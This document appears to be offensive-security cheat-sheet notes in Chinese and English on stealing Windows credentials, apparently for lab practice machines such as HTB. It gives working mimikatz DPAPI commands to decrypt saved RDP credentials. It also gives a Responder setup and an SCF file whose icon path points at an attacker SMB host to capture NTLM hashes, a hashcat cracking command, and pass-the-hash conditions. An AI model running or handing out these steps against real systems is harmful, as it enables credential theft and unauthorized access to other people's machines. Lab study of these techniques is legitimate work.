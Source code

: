 ### rdp pwd

```bash
#-查看用户保存的凭证
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*

#-mimikatz获取guidMasterKey
mimikatz privilege::debug
mimikatz dpapi::cred /in:C:\Users\test\AppData\Local\Microsoft\Credentials\8FC163874708FE28788127CF58FF4843

#-查找对应masterKey
mimikatz sekurlsa::dpapi  //wrong

#-使用MasterKey解密凭证文件
mimikatz dpapi::cred /in:C:\Users\test\AppData\Local\Microsoft\Credentials\8FC163874708FE28788127CF58FF4843 /masterkey:c0bf810227c26e7a523915e15*
```

### steal ntml
+ 利用dns poisoning or ssrf， 从http/web服务获取hash/creds;
+ 获取hash 后 crack or overpass the hash， 或 getST pass ticket
+ [hacktricks - relay attack](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)
+ practice machine: htb-intelligence,pg-heist
+ scf attack steal ntlm hash.

```bash
sudo apt install responder

sudo responder -I tun0 -A

# scf attack
## hello.scf
[Shell]
Command=2
IconFile=\\10.10.14.90\share\hello.ico
[Taskbar]
Command=ToggleDesktop

## crack hash. 
hashcat -m 5600 amanda.ntlmv2 /usr/share/wordlists/rockyou.txt --force
```

### Pass the Hash
**Pass the hash**, allows an attacker to authenticate to a remote system or service using a user’s NTLM hash instead of the associated plaintext password.
 
+ not work for Kerberos authentication but only for server or service using NTLM authentication.
+ third-party tools: PsExec from msf, Passing-The-hash toolkit, impacket
+ mechanics: attacker connect to the victim using Server Message block（SMB） protocol and performs authentication usering the NTLM hash.
+ [hacktricks - pass the hash](https://book.hacktricks.xyz/windows/ntlm#pass-the-hash)
+ kb2871997，禁用本地管理员账户远程连接,默认Administrator(SID 500)例外，可Pth; [参考](http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html); [freebuf](https://www.freebuf.com/articles/neopoints/245872.html)
+ KB22871997补丁与PTH, pth 不可用可考虑rdp（条件苛刻） [KB22871997补丁与PTH攻击](https://xz.aliyun.com/t/8690#toc-20)
+ 2003/vista引入UAC，本地管理员组的domain 用户及本地administrator用户(sid 500)可pth；
+ 禁用UAC时，本地管理员组本地用户同样可pth, 域用户亦可；[uac disable](https://docs.microsoft.com/en-US/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)
+ 域用户可通过kerberos认证pth，需配置hosts, 使用hostname（not ip）
